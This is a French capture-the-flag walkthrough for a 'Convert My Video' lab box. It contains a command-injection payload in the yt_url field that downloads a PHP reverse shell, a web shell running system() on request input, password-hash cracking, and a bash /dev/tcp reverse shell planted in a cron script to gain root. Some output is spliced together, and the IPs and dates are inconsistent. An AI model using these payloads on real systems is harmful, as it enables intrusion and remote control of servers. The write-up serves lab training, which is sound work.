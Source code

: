 # Convert My Video 

## What is the name of the secret folder?

```
$ python dirsearch.py -u 10.18.22.17 -E -w /data/src/wordlists/common.txt 

 _|. _ _  _  _  _ _|_    v0.4.2
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-06-15_13-05-01.log

Target: 10.18.22.17

[13:05:01] Starting: 
[13:05:02] 200 -  747B  - /
[13:05:02] 403 -  277B  - /.hta
[13:05:04] 401 -  459B  - /admin
[13:05:14] 301 -  313B  - /images  ->  http://10.18.22.17/images/
[13:05:15] 200 -  747B  - /index.php
[13:05:15] 301 -  309B  - /js  ->  http://10.18.22.17/js/
[13:05:23] 403 -  277B  - /server-status
[13:05:25] 301 -  310B  - /tmp  ->  http://10.18.22.17/tmp/

Task Completed
```
La dir caché était `/admin`

## What is the user to access the secret folder?

`view-source:http://10.18.22.17` 

```
<html>
   <head>
      <script type="text/javascript" src="/js/jquery-3.5.0.min.js"></script>
      <script type="text/javascript" src="/js/main.js"></script>
      <link rel="stylesheet" type="text/css" href="/style.css">
   </head>
   <body>
      <div id="container">
         <div id="logos">
            <img src="images/youtube.png" alt="Youtube to MP3" height="200" width="200" />
            <img src="images/mp3-file.png" alt="Youtube to MP3" height="200" width="200" />
         </div>
         <h3>Convert My Video</h3>
         <label for="ytid">Video ID:</label><input type="text" id="ytid" name="ytid">
         <button type="button" id="convert">Convert!</button>
         <span id="message"></span>
      </div>
   </body>
</html>
```
Nous pouvons voir la dir js/main.js , nous allons voir ce qu'il se trouve à l'intérieur:
```
$(function () {
    $("#convert").click(function () {
        $("#message").html("Converting...");
        $.post("/", { yt_url: "https://www.youtube.com/watch?v=" + $("#ytid").val() }, function (data) {
            try {
                data = JSON.parse(data);
                if(data.status == "0"){
                    $("#message").html("<a href='" + data.result_url + "'>Download MP3</a>");
                }
                else{
                    console.log(data);
                    $("#message").html("Oops! something went wrong");
                }
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });

});
```

Maintenant, utilisons ceci pour injecter un reverse shell. Téléchargez d'abord un reverse shell PHP, renommez-le shell.php et changez l'IP et le port. 
Rendez-le disponible via un serveur Web Python (python3 -m http.server). 
Maintenant, injectez-le (vous trouverez ci-dessous les requêtes reçu sur Burpsuite):

```
POST / HTTP/1.1
Host: 10.18.22.17
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://10.18.22.17
DNT: 1
Connection: close
Referer: http://10.18.22.17

yt_url=`wget${IFS}http://10.18.22.17:8000/shell.php`
```
Ici, nous pouvons vori la réponse de Burp:

```
HTTP/1.1 200 OK
Date: Sunday, 30 Oct 2022 20:09:10 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 830
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":2,"errors":"--2022-10-30 20:09:10--  http:\/\/10.18.22.17:8000\/shell.php\nConnecting to 10.18.22.17:8000... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 5492 (5.4K) [application\/octet-stream]\nSaving to: 'shell.php'\n\n     0K .....                                                 100%  136K=0.04s\n\n2020-06-15 15:34:42 (136 KB\/s) - 'shell.php' saved [5492\/5492]\n\nWARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\n","url_orginal":"`wget${IFS}http:\/\/10.18.22.17:8000\/shell.php`","output":"","result_url":"\/tmp\/downloads\/5ee7951264f4c.mp3"}
```
Maintenant que nous avons notre reverse shell mis en place faisons cette commande `rlwrap nc -nlvp 4444` puis:
```
$ cd /var/www/html/admin/
$ ll
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12 05:05 .
drwxr-xr-x 6 www-data www-data 4096 Jun 15 15:34 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12 03:55 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12 04:02 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12 05:05 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12 04:18 index.php
$ cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```
Nous allons crack le mdp avec John:
```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/data/src/john/run/password.lst
jessie           (itsmeadmin)
1g 0:00:00:00 DONE 2/3 (2022-10-30 20:12) 5.000g/s 12270p/s 12270c/s 12270C/s bigdog..keeper
Use the "--show" option to display all of the cracked passwords www-data@dmv:/var/www/html/tmp$ cat /var/www/html/admin/index.php
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>
<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button
Session completed. 
```
Ils nous trouvent le mot de passe jessie pour itsmeadmin

## What is the user flag?

Pour avoir le flag il suffit d'aller ici:  `/var/www/html/admin/` puis d'écrire:
```
$ cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

**User Flag:** `flag{0d8486a0c0c42503bb60ac77f4046ed7}`

 ## What is the root flag?
 
```
$ SHELL=/bin/bash script -q /dev/null
www-data@dmv:/$ 
```

```
www-data@dmv:/var/www/html/tmp$ cat /var/www/html/admin/index.php
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>
<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
```

```
www-data@dmv:/var/www/html/tmp$ cat /var/www/html/tmp/clean.sh
rm -rf downloads
```
Petit reverse shell
`www-data@dmv:/var/www/html/tmp$ echo "bash -i >& /dev/tcp/10.18.22.17/5555 0>&1" > clean.sh`
Puis hop
```
$ rlwrap nc -nlvp 5555
```
Enfin on cat le flag:
```
root@dmv:/var/www/html/tmp# cd /root
root@dmv:~# cat root.txt
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```

**Root Flag:** `flag{d9b368018e912b541a4eb68399c5e94a}`

